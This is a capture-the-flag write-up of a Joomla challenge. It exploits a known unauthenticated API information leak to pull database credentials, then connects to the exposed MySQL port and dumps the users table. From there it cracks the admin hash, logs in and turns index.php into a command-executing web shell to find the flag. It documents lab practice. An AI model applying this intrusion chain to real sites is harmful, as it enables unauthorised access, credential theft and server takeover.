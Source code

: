 ![image-20240414085530361](./assets/image-20240414085530361.png)

Challenge was a Joomla web application that has Unauthenticated information disclosure vulnerability. And port 3306 was accessible from public internet.

https://www.exploit-db.com/exploits/51334

![image-20240414041110792](./assets/image-20240414041110792.png)

```
{"links":{"self":"http:\/\/34.142.135.231\/api\/index.php\/v1\/users?public=true"},"data":[{"type":"users","id":"501","attributes":{"id":501,"name":"Me","username":"admin","email":"admin@localhost.com","block":0,"sendEmail":0,"registerDate":"0000-00-00 00:00:00","lastvisitDate":"0000-00-00 00:00:00","lastResetTime":"0000-00-00 00:00:00","resetCount":0,"group_count":1,"group_names":"Super Users"}}],"meta":{"total-pages":1}}
```



![image-20240414041150139](./assets/image-20240414041150139.png)

```
{"links":{"self":"http:\/\/34.142.135.231\/api\/index.php\/v1\/config\/application?public=true","next":"http:\/\/34.142.135.231\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20","last":"http:\/\/34.142.135.231\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=100&page%5Blimit%5D=20"},"data":[{"type":"application","id":"224","attributes":{"offline":false,"id":224}},{"type":"application","id":"224","attributes":{"offline_message":"This site is down for maintenance.<br> Please check back again soon.","id":224}},{"type":"application","id":"224","attributes":{"display_offline_message":1,"id":224}},{"type":"application","id":"224","attributes":{"offline_image":"","id":224}},{"type":"application","id":"224","attributes":{"sitename":"Joomla!","id":224}},{"type":"application","id":"224","attributes":{"editor":"tinymce","id":224}},{"type":"application","id":"224","attributes":{"captcha":0,"id":224}},{"type":"application","id":"224","attributes":{"list_limit":20,"id":224}},{"type":"application","id":"224","attributes":{"access":1,"id":224}},{"type":"application","id":"224","attributes":{"frontediting":1,"id":224}},{"type":"application","id":"224","attributes":{"dbtype":"mysqli","id":224}},{"type":"application","id":"224","attributes":{"host":"localhost","id":224}},{"type":"application","id":"224","attributes":{"user":"jdbuser","id":224}},{"type":"application","id":"224","attributes":{"password":"dbupass7CHwJiqzc7RNoM9gxoGu","id":224}},{"type":"application","id":"224","attributes":{"db":"joomla_400","id":224}},{"type":"application","id":"224","attributes":{"dbprefix":"secplayground_","id":224}},{"type":"application","id":"224","attributes":{"dbencryption":0,"id":224}},{"type":"application","id":"224","attributes":{"dbsslverifyservercert":false,"id":224}},{"type":"application","id":"224","attributes":{"dbsslkey":"","id":224}},{"type":"application","id":"224","attributes":{"dbsslcert":"","id":224}}],"meta":{"total-pages":6}}
```

Now I gain a Database username, Password and database name.

```
User: jdbuser
Password: dbupass7CHwJiqzc7RNoM9gxoGu
Databasename: joomla_400
```

```
mysql -h 34.142.135.231 -u jdbuser -p -P 3306
```

```
use joomla_400;
select * from secplayground_users;
```

![image-20240414044437263](./assets/image-20240414044437263.png)

Crack the password hash with https://crackstation.net/ then login to administrator page.

![image-20240414044551621](./assets/image-20240414044551621.png)

```
qweasd
```

![image-20240414044611671](./assets/image-20240414044611671.png)

I edit the index.php to recieve for GET parameter cmd. Then execute system command.

![image-20240414050606968](./assets/image-20240414050606968.png)

After enumeration, I found a flag.txt file in /tmp directory.

![image-20240414050727396](./assets/image-20240414050727396.png)

```
web{KLdyHNvRzV}
```



